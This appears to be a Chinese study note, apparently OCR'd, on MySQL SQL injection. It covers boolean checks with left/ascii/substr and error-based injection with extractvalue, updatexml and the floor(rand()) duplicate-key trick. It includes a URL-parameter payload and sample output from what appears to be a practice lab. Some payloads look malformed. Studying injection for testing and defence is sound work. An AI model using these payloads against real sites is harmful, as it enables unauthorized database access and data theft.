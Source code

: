 1. 构造逻辑判断

   left(a,b)      从a的左侧截取b位

   ascii(substr(str,a,b))   从str的a开始截取b长度 ，  ascii则将某个字符转为ascii值

2. 报错注入，利用数据库制造错误条件，使查询结果显示在报错中

   **extractvalue(xml,args),xml,搜索的地址格式错误，会报错，特殊字符会出错，错误只显示30位    适用版本：mysql**

   **extractvalue函数的作用是对xml文档进行查询 ，xml为目标xml文档，args为xml路径** 
   
   ```mysql
   select extractvalue(1,concat('^',(select version()),'^'));
   
   //常用
   ?id = 1 extractvalue(1,concat('^',(select version()),'^')) --+
   ```

   具体值都可以使用（）中编写查询语句

   **updatexml（arg1,arg2,arg3）** 函数为更新xml文档的 函数，
   
   **arg1为目标xml文档，arg2为xml路径，arg3为更新的内容  路径错误则会报错**
   
   updatexml(arg1,arg2,arg3)   控制arg2   32个字符  
   
   ```mysql
   select extractvalue(1,concat('^',(select version()),'^'),1);
   
   
   select updatexml('^',concat(select concat(schema_name) from information_schema.schemata),'^') --+
   ```
   
   floor(arg)返回小于参数的最大整数
   
   ```mysql
   select concat(user(),floor(rand(0)*1))x from information_schema.tables group by x;
   +-----------------+
   | x               |
   +-----------------+
   | root@localhost0 |
   +-----------------+
   1 row in set (0.01 sec)
   
   select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x;
   #报错：ERROR 1062 (23000): Duplicate entry 'pikachu1' for key 'group_key'
   ```
   
   
   